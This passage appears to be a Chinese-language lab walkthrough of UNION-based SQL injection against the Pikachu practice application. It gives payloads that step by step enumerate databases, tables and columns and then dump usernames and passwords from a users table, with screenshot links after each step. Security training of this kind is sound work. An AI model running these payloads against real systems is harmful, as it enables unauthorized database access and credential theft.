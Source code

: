 ```
#爆库【pikachu】 查看所有数据库名称

x%' union select 1,2,group_concat(schema_name) from information_schema.schemata # 

```

![image-20220126203641155](https://gitee.com/xxb667/img/raw/master/img/image-20220126203641155.png)

查看当前数据库名称

```
查看当前数据库名称
x%' union select 1,2,database()#
```

![image-20220126203745447](https://gitee.com/xxb667/img/raw/master/img/image-20220126203745447.png)

### 爆表

查看当前数据库中的所有表

```
 #爆表【httpinfo,member,message,users,xssblind】 
 
x%' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() # 
```

![image-20220126203900439](https://gitee.com/xxb667/img/raw/master/img/image-20220126203900439.png)

### 爆列

得到指定表中的所有列名

```
#爆列【...,username,password,...】

x%' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' # 
```

![image-20220126204009747](https://gitee.com/xxb667/img/raw/master/img/image-20220126204009747.png)

### 爆值

得到指定表的指定值

```
#爆值 

x%' union select 1,2,concat_ws('-',username,password) from users #
```

![image-20220126204054029](https://gitee.com/xxb667/img/raw/master/img/image-20220126204054029.png)
